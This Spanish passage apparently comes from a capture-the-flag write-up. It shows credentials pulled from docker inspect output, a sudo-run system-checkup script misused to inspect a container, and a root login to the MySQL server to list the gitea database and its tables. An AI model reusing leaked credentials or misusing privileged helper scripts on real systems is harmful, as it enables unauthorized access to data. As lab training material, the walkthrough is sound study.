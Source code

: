 Vemos algunas credenciales, `"MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh"`. Además de una base de datos, `gitea`. Podemos tratar de ver la ip del contenedor con:

```bash
/usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' mysql_db
```
```ip
172.19.0.2
```

Y ya podemos conectarnos a [[3306-mysql]]:

```bash
mysql -h 172.19.0.2 -u root -p
```

E introducimos la contraseña del administrador que encontramos antes (`jI86kGUuj87guWr3RyF`). Y estamos dentro:

```mysql
select current_user();
```
```mysql
+----------------+
| current_user() |
+----------------+
| root@%         |
+----------------+
```

Una vez dentro listamos las bases de datos:

```mysql
show databases;
```
```mysql
+--------------------+
| Database           |
+--------------------+
| gitea              |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
```

Seleccionamos primero `gitea`:

```mysql
use gitea;
```

Y vemos las tablas:

```mysql
show tables;
```
```mysql
+---------------------------+
| Tables_in_gitea           |
+---------------------------+
| access                    |
[...]
| upload                    |
| user                      |
| user_badge                |
[...]
```
